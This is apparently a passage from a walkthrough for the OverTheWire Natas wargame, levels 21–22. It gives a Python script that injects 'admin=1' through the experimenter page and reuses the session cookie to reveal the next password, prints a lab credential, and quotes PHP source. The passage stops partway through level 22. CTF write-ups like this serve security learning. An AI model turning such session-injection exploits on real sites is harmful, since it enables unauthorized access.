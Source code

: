 ```
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>
```

It looks like we can just pass `admin:1` into the experimenter page to obtain the session id which we can use in our main page to obtain the password.

```
import requests

username = "natas21"
password = "IFekPyrQXftziDEsUr3x21sYuahypdgJ"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/?debug=true".format(username)
experimenter_url = "http://natas21-experimenter.natas.labs.overthewire.org/?debug=true"

# response = session.get(url, auth=(username, password))
# content = response.text
# print(content)

# response = session.get(experimenter_url, auth=(username, password))
# content = response.text
# print(content)

response = session.post(experimenter_url, data={
                        "submit": "", "admin": "1"}, auth=(username, password))
content = response.text
session_id = session.cookies["PHPSESSID"]

response = session.post(
    url, cookies={"PHPSESSID": session_id}, auth=(username, password))
content = response.text
print(content)
```

# Level 22

In this webpage, there is nothing except for the source code link.

Upon clicking on the view source code, there is a php code within:

```
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

.
.

<?
    if(array_key_exists("revelio", $_GET)) {
```